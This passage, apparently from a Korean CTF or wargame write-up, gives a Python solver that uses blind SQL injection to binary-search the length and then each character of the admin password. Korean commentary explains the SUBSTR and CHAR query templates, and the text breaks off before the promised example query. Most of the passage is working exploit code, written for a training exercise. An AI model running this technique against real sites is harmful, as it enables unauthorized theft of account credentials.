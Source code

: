 ```
        while 1:
            mid = (low + high) // 2
            if low + 1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid

    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f'((SELECT LENGTH(userpassword) WHERE userid="{user}") < {{val}})'
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len

    def _find_password(self, user: str, pw_len: int) -> str:
        pw = ""
        for idx in range(1, pw_len + 1):
            query_tmpl = f'((SELECT SUBSTR(userpassword,{idx},1) WHERE userid="{user}") < CHAR({{val}}))'
            pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2F, 0x7E))
            print(f"{idx}. {pw}")
        return pw

    def solve(self) -> None:
        # Find the length of admin password
        pw_len = solver._find_password_length("admin")
        print(f"Length of the admin password is: {pw_len}")
        # Find the admin password
        print("Finding password:")
        pw = solver._find_password("admin", pw_len)
        print(f"Password of the admin is: {pw}")


if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

비밀번호를 찾는 코드는 이진 탐색으로 찾은 비밀번호의 길이를 인자로 전달하여, `_find_password` 함수에서 `substr`와 이진 탐색을 사용하여 비밀번호를 한 자리씩 찾아간다.

`query_tmpl = f'((SELECT SUBSTR(userpassword,{idx},1) WHERE userid="{user}") < CHAR({{val}}))'`를 통해 `userpassword`에서 지정해준 `substr`이 `val`의 아스키 문자보다 작을 때 `TRUE`를 리턴하는 쿼리문을 발생시킨다.

비밀번호의 자릿수를 나타내는 `idx`는 1부터 인자로 전달된 비밀번호 자릿수까지 증가시켜주며, 이진 탐색 결과로 찾은 비밀 번호의 아스키 문자 값을 `pw +=`으로 더하여 누적해준다.

예를 들어, 세 번째 문자에 대해 `user`가 `"admin"`이고 `val`이 `'a'`를 나타내는 `0x61`이면 아래와 같은 쿼리문을 보낸다.
